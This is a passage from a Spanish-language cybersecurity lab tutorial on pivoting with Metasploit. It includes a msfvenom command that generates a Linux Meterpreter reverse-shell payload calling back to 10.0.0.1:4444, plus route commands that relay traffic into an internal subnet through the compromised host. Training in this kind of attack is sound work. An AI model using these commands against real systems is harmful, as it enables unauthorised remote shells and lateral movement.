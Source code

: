 ![kali-metasploit](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/kali-metasploit.png?raw=true)

La máquina Ubuntu tiene dos interfaces la cual tiene visibilidad con la red 10.0.0.0/24 y 11.0.0.0/24 será el pivoting y la segunda máquina Linux con una sola interface con la ip asignada 11.0.0.10 que tendrá visibilidad para la red 11.0.0.0.0/24, esta será una posible máquina vulnerable ya que dispondrá de un servicio web Apache a la que tendremos que intentar llegar desde la máquina Kali.

![ubuntu](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/ubuntu.png?raw=true)

## **Establecer una sesión Meterpreter en la máquina Ubuntu (pivoting)**

El funcionamiento de los tipos de pivoting dentro de las posibilidades que nos ofrece Metasploit Framework debemos partir de la obtención de una sesión Meterpreter en uno de los equipos de la red, en este caso será el Ubuntu en el cual tiene visibilidad con las dos redes dentro de este laboratorio, esta será la máquina que nos hará de pivoting a las redes que tenga configuradas. Para este escenario podemos generar con msfvenom un payload en el que su shellcode será un meterpreter linux y ejecutarlo en la máquina remota para obtener dicha sesión.

> msfvenom -p Linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f elf -b '\x00\x0a\x0d' -o payload

- *b '\x00\x0a\x0d'*: (--bad-chars) Parámetro en el que se le puede especificar una lista de caracteres a evitar, de modo que no provoque un posible error en el momento de ejecutar el payload. En este caso estos *[opcodes](https://en.wikipedia.org/wiki/Opcode)* serían válidos.

![opcodes](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/opcodes.png?raw=true)

## **Route**

Una vez tenemos una sesión establecida con la máquina Ubuntu, iniciamos el meterpreter y una forma de comprobar las redes asociadas es listar las interfaces de red con *ipconfig* para comprobar si existe alguna dirección IP asignada que forme parte de otro segmento de red distinto. También podríamos ejecutar una *shell* dentro de meterpreter y consultar la tabla de rutas con el comando *route print*. Como vemos se muestra la red 10.0.0.0/24 en la interface 2 y la 11.0.0.0/24 en la interface 3.

![route](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/route.png?raw=true)

***Route*** es un comando que nos permitirá encaminar tráfico de red dentro de Metasploit, diciéndole que desde cualquier módulo todo el tráfico que queramos llevar hacia otra red lo haga a través del identificador de una sesión establecida que tengamos activa, por ejemplo con un Meterpreter.

Salimos de la sesión de meterpreter y la dejamos en segundo plano saliendo con el comando *background*. Fuera de meterpreter y sabiendo que la máquina Ubuntu tiene dos redes configuradas, hacemos uso del comando route para añadir la visibilidad de esta nueva red a nivel de Metasploit.

> route add <network> <netmask> <session_id>

> route add 11.0.0.0 255.255.255.0 1

Con esto le estaremos diciendo que todo el tráfico que se produzca dentro de Metasploit con destino a la red 11.0.0.0/24 lo enrute a través de la sesión con ID 1 donde está el meterpreter. Con *route print* dentro de Metasploit podemos ver las rutas asignadas y con *route -h* veremos la ayuda completa.

